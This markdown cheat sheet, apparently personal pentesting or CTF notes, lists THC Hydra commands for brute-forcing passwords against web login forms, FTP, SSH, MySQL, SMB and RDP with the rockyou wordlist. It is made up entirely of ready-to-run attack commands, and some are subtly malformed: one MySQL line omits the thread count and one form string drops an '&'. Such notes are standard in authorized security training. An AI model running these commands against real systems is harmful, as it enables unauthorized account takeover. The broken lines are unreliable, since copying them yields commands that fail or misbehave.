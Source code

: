 # Brute Force THCHydra

## HTTP Post Web Form

$ hydra -l user -P /usr/share/wordlists/rockyou.txt $IP http-post-form "<Login Page>:<Request Body>:<Error Message>"

$ hydra -l admin -P /dir/passlist.txt http://example.com  http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V

$ hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.12.183 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."

$hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.4.149 http-post-form "/admin/:user=^USER^&pass=^PASS^login=Login:Username or password invalid"

$ hydra -l user -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/login.php:username=^USER^&password=^PASS^:Login Failed"

## FTP

$ hydra -l user-name -P /dir/passlist.txt <IP Address> ftp

$ hydra -L /dir/users.txt -P /dir/passlist.txt ftp://<IP_Address>

## SSH

$ hydra -l <username> -P <full path to passlist.txt> <IP Address Target> -t 4 ssh

$ hydra -L <full path to usernamelist.txt> -P <full path to passlist.txt> ssh://IP_Address:22

$ hydra -f -l user -P /usr/share/wordlists/rockyou.txt <IP Address Target> -t 4 ssh

## MySQL

$ hydra -f -l user -P /usr/share/wordlists/rockyou.txt <IP Address Target> -t mysql

## SMB

$ hydra -f -l user -P /usr/share/wordlists/rockyou.txt <IP Address Target> -t 4 smb

## RDP

$ hydra -l <username> -P <full path to passlist.txt> <IP Address> rdp

$ hydra -L <full/path_to_usernamelist.txt> -P <full/path_to_passlist.txt> -t 4 -W 3 rdp://IP_Address:3389/

